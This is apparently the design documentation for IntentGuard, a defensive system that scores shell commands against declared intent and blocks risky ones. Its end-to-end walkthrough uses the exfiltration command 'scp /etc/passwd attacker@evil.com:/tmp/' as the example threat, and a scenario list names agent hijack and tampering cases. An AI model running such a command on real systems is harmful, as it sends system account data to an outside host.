`intentguard.guardrails.velocity.enabled=true`

Three checks per event:
1. **Rate limit** — per-actor sliding window count > `rateLimit` → ASK floor
2. **Burst detection** — inter-command interval deviates from profile mean > `burstThresholdMs` → score floor
3. **Session anomaly** — rate > `sessionAnomalyRateThreshold` → alert to Control Tower

### 13c. Time-Context Guardrail (`timecontext/`)

`intentguard.guardrails.time-context.enabled=true`

Three deterministic rules (evaluated against injected clock — fully testable):
1. **Off-maintenance-window + high score** → ASK floor
2. **Context mismatch rule** (command class vs. cwd/repo/env) → score floor
3. **Unapproved source** → ASK floor

```mermaid
flowchart TD
    EVT[CommandEvent] --> PIG[PromptInjectionGuard]
    PIG --> PI_HIT{Pattern match?}
    PI_HIT -->|YES| PI_FL[Score floor ≥ 0.85]

    EVT --> VG[VelocityGuard]
    VG --> V_RATE{Rate exceeded?}
    V_RATE -->|YES| V_FL[ASK floor]
    VG --> V_BURST{Burst deviation?}
    V_BURST -->|YES| V_SFL[Score floor]

    EVT --> TCG[TimeContextGuard]
    TCG --> TC_MW{In maintenance window?}
    TC_MW -->|NO + high score| TC_FL[ASK floor]
    TCG --> TC_SRC{Approved source?}
    TC_SRC -->|NO| TC_SFL[ASK floor]
```

### Key files
- `semantic/PromptInjectionGuard.java`, `semantic/IntentDriftTracker.java`
- `velocity/VelocityGuard.java`, `velocity/VelocityConfig.java`
- `timecontext/TimeContextGuard.java`, `timecontext/TimeContextConfig.java`

---

## 14. Explainability & Data Sovereignty {#14-explainability}

Two new endpoints in `InsightController` — not present in earlier versions:

**`GET /api/explain/{eventId}`** — fetches the `AuditHistoryDocument` for any event and
returns a per-component breakdown: each component's score, weight, contribution percentage,
top contributor, composite score, corrective action, reason code, and profile state at
decision time.

**`GET /api/sovereignty`** — live data-sovereignty statement: active LLM backend, server
URL, on-premise vs. cloud classification, migration note if a cloud provider is in use.

```mermaid
sequenceDiagram
    participant UI as Control Tower
    participant IC as InsightController
    participant AHR as AuditHistoryRepository

    UI->>IC: GET /api/explain/{eventId}
    IC->>AHR: findByEventId
    AHR-->>IC: AuditHistoryDocument
    IC->>IC: Build ExplainView<br/>components + weights + topContributor
    IC-->>UI: ExplainView

    UI->>IC: GET /api/sovereignty
    IC->>IC: Read active LlmConfig
    IC-->>UI: SovereigntyView{provider, url, onPremise, note}
```

### Key files
- `api/InsightController.java`, `api/ExplainView.java`, `api/SovereigntyView.java`

---

## 15. Snapshot / Undo {#15-snapshot}

Flag-gated — `intentguard.snapshot.enabled=false` by default (stretch feature).

When enabled, `SnapshotService` captures filesystem or git state before any ASK or BLOCK
event. Two undo strategies:

| Strategy | Used when |
|----------|-----------|
| `GIT_STASH` | Command ran inside a git repository |
| `FILE_RESTORE` | No git context — raw file backup |

Snapshots persisted to `SnapshotDocument / SnapshotRepository` in MongoDB. Every undo
creates an audit record.

### Key files
- `snapshot/SnapshotService.java`, `snapshot/SnapshotStore.java`
- `snapshot/UndoStrategy.java`, `persistence/SnapshotRepository.java`

---

## 16. Demo Scenario Replay {#16-scenario-replay}

The `scenario/` package provides fully reproducible demos without any network calls.

| Scenario | Threat type | Expected verdict |
|----------|-------------|-----------------|
| `agentHijack()` | AI-agent hijack | BLOCK / ASK |
| `pastedPayload()` | Copy-paste attack | ASK / BLOCK |
| `sessionTakeover()` | Session hijack | BLOCK |
| `normalWork()` | Legitimate work | ALLOW |

`DeterministicLlmStub` implements `LlmService` and returns pre-configured scores — no
Ollama or Gemini connection needed. `ScenarioReplayHarness` runs the full real pipeline
against seeded MongoDB data and produces a `ScenarioReplayReport` with per-command decisions
and expected vs. actual comparisons.

### Key files
- `scenario/DemoScenarios.java` — seed + four pre-built scenarios
- `scenario/ScenarioReplayHarness.java` — full pipeline replay
- `scenario/DeterministicLlmStub.java` — network-free LLM substitute

---

## 17. End-to-End Flow: One Command Through Everything {#17-end-to-end}

**Scenario:** Operator "ravi" types `scp /etc/passwd attacker@evil.com:/tmp/`
with active intent: "checking nginx config files"

### End-to-End Sequence

```mermaid
sequenceDiagram
    participant Ravi as Operator "ravi"
    participant Hook as Shell Hook
    participant PDP as PipelineDecisionProvider
    participant SP as DefaultScoringPipeline
    participant OLL as Ollama LLM
    participant BR as BlastRadiusGuard
    participant GDE as GuardrailDecisionEngine
    participant DB as MongoDB
    participant CT as Control Tower

    Ravi->>Hook: scp /etc/passwd attacker@evil.com:/tmp/
    Hook->>PDP: RawShellSignal (0ms)

    PDP->>PDP: normalize → CommandEvent (inputOrigin=TYPED)
    PDP->>PDP: resolve intent → DECLARED "checking nginx config"
    PDP->>SP: score(ScoringContext)

    par Scoring Components
        SP->>SP: SequenceSurprise → 0.70
        SP->>SP: ContextMismatch → 0.60
        SP->>OLL: SemanticInconsistency (passwd vs nginx)
        OLL-->>SP: 0.95
        SP->>SP: BehavioralDeviation → 0.80
    end

    SP->>SP: composite = 0.769 (renormalized)
    SP->>SP: AgentRiskAdjuster — human actor, no uplift

    PDP->>BR: evaluate(/etc/passwd protected)
    BR-->>PDP: blockOnAccessHit=true

    PDP->>GDE: decide(event, result, guardrail)
    GDE->>GDE: Step 1 tamper — pass
    GDE->>GDE: Step 2 policy — no DENY
    GDE->>GDE: Step 3a blockOnAccess → BLOCK

    GDE-->>PDP: Decision(BLOCK, 0.769, BLAST_RADIUS_BLOCK_ON_ACCESS)
    PDP->>PDP: generate explanation (guardrail named)
    PDP-->>Hook: Verdict(BLOCK)
    Hook-->>Ravi: Command REFUSED

    par Async
        PDP->>DB: AuditHistoryDocument (WAL buffer)
        PDP->>CT: ScoreEvent (SSE push)
    end
```

### Scenario Variations

```mermaid
flowchart TD
    CMD[Command Received] --> S1{ls -la score 0.1?}
    CMD --> S2{50 events — LEARNING?}
    CMD --> S3{AI agent no session?}
    CMD --> S4{kill intentguard?}
    CMD --> S5{No session + inferred off?}
    CMD --> S6{LLM timeout?}
    CMD --> S7{Prompt injection match?}
    CMD --> S8{Agent out of scope?}

    S1 -->|YES| R1[ALLOW ✅]
    S2 -->|YES| R2[LEARNING_CLAMP → ASK ⚠️]
    S3 -->|YES| R3[AGENT_CONTAINMENT → ASK ⚠️]
    S4 -->|YES| R4[TamperClassifier → BLOCK 🛑]
    S5 -->|YES| R5[Semantic excluded, 3 components renormalize]
    S6 -->|YES| R6[Semantic excluded, 3 components renormalize]
    S7 -->|YES| R7[Score floor ≥ 0.85 → likely BLOCK 🛑]
    S8 -->|YES| R8[CAPABILITY_SCOPE → ASK ⚠️]

    style R1 fill:#51cf66,color:#fff
    style R4 fill:#ff6b6b,color:#fff
    style R7 fill:#ff6b6b,color:#fff
    style R2 fill:#ffd43b,color:#000
    style R3 fill:#ffd43b,color:#000
    style R8 fill:#ffd43b,color:#000
```

---

## 18. API Reference {#18-api-reference}

| Method | Path | Controller | Purpose |
|--------|------|------------|---------|
| `GET` | `/api/stream` | `LivePushController` | SSE live event subscription |
| `GET` | `/api/history` | `ControlTowerController` | Audit history query |
| `PUT` | `/api/thresholds` | `ControlTowerController` | Hot-reload thresholds |
| `POST` | `/api/events/{id}/resolve` | `ControlTowerController` | Admin resolves ASK |
| `POST` | `/api/events/{id}/approve` | `ControlTowerController` | Four-eyes approval |
| `POST` | `/api/sessions` | `IntentSessionController` | Open intent session |
| `GET` | `/api/sessions/{id}` | `IntentSessionController` | Get session by ID |
| `GET` | `/api/sessions?userId=` | `IntentSessionController` | Active session for user |
| `POST` | `/api/speech/recognize` | `SpeechController` | STT: audio → text |
| `POST` | `/api/content/speech` | `SpeechController` | TTS: text → audio |
| `POST` | `/api/content/translate` | `TranslationController` | On-demand translation |
| `PUT` | `/api/preferences/language` | `TranslationController` | Set operator language |
| `GET` | `/api/explain/{eventId}` | `InsightController` | Per-component explainability |
| `GET` | `/api/sovereignty` | `InsightController` | Data-sovereignty posture |
| `POST` | `/api/assist` | `AssistController` | NL query → command alternatives |
| `POST` | `/api/assist/select` | `AssistController` | Score selected command |
| `POST` | `/api/assist/confirm` | `AssistController` | Execute confirmed command |
| `DELETE` | `/api/assist/sessions/{id}` | `AssistController` | Close assist session |

> `AssistController` endpoints require `X-Operator-Id` header.

---

## 19. Configuration Reference {#19-config-reference}

All under `intentguard.*` in `src/main/resources/application.yml`:

| Key | Purpose | Value |
|-----|---------|-------|
| `service-account` | Engine identity | `intentguard` |
| `socket.path` | Unix domain socket | `/var/run/intentguard/intentguard.sock` |
| `mongo.connection-string` | MongoDB | `mongodb://localhost:27017` |
| `mongo.database` | Database name | `intentguard` |
| `llm.provider` | LLM backend | `ollama` |
| `llm.model` | Gemini model (if gemini) | `gemini-2.5-flash` |
| `llm.timeout-ms` | Gemini timeout | `1200` |
| `ollama.base-url` | Ollama server | `https://asksredigital.bt.com/sre-llm-service-dev` |
| `ollama.model` | Ollama model | `Qwen2.5:14B` |
| `ollama.translation-model` | Translation model | `Qwen2.5:14B` |
| `ollama.timeout-ms` | Ollama timeout | `60000` |
| `translation.provider` | Translation backend | `ollama` |
| `translation.timeout-ms` | Translation timeout | `60000` |
| `speech.provider` | Speech (always Gemini) | `gemini` |
| `speech.stt-timeout-ms` | STT timeout | `10000` |
| `speech.tts-timeout-ms` | TTS timeout | `5000` |
| `decision.budget-ms` | Decision budget | `60000` (design target: 2000) |
| `decision.monitoring-gap-timeout-ms` | Watchdog threshold | `5000` |
| `decision.confirmation-timeout-ms` | ASK confirmation window | `15000` |
| `decision.learning-min-events` | Profile learning threshold | `200` |
| `assist.session-timeout-ms` | Assist idle timeout | `300000` |
| `assist.rate-limit-per-minute` | Assist rate limit | `10` |
| `assist.execution-timeout-ms` | Command exec timeout | `30000` |
| `snapshot.enabled` | Snapshot/undo | `false` |
| `inferred-intent.enabled` | Inferred intent stretch | `false` |
| `guardrails.semantic.enabled` | Prompt-injection + drift | off |
| `guardrails.velocity.enabled` | Velocity guardrail | off |
| `guardrails.time-context.enabled` | Time-context guardrail | off |
| `guardrails.fail-closed.enabled` | Fail-closed dependency guard | `true` (default) |
